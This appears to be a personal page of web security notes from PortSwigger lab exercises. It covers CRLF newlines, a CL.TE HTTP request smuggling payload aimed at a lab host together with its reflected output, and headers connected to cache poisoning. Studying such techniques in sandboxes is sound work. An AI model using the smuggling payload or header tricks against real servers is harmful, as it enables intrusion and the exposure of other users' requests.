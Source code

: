 # Mad security findings

This is crazy stuff I found out in the wild. I will put here only the ones, which are the most crazy in my opinion and caused my brain to question reality. Most of those I found out during solving Portswigger’s Web security academy labs or another security sandbox labs.

### Newlines

Seems trivial, but keep in mind HTTP Requests must have **two(!!!)** additional newlines at the request ending. There may be cases when they must be present on smuggled requests. Newlines in HTTP requests are used the ones with carriage return `\r\n`.

Looks like, mostly, web-servers are dismissing requests which contain solely newline character without carriage return (just `\n`, not `\r\n`). However, this can be potentially interesting way to exploit webservers or topic to research. 

## Request Smuggling

When it comes to request smuggling, there is a way how to expose request modification done by frontend server (CT.TE request smuggling). For example consider following request:

```
POST / HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 251

0

POST / HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 260

search=POST /foo HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
```

This request expose request content into `search` param, which is then baked into outputting HTML. However the ending result is following:

```
0 search results for 'POST /foo HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
POST / HTTP/1.1
X-HEADER-AD: 11.155.222.156
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 251

0
```

Request contains subsequent request, merged together. Wierd thing is, that it did not fail, because of double headers. **TODO: Investigate.**

## Interesting headers

Different curious headers are connected to cache poisoning. (They may be coming from underlying frameworks, etc.).

- [Location](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Location)
- [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host)
- X-Forwarded-Scheme
- `X-Original-URL` - Coming from underlying ZEND framework (PHP Symphony is built upon this)
- The rest of `X-Forwarded ...` request headers.
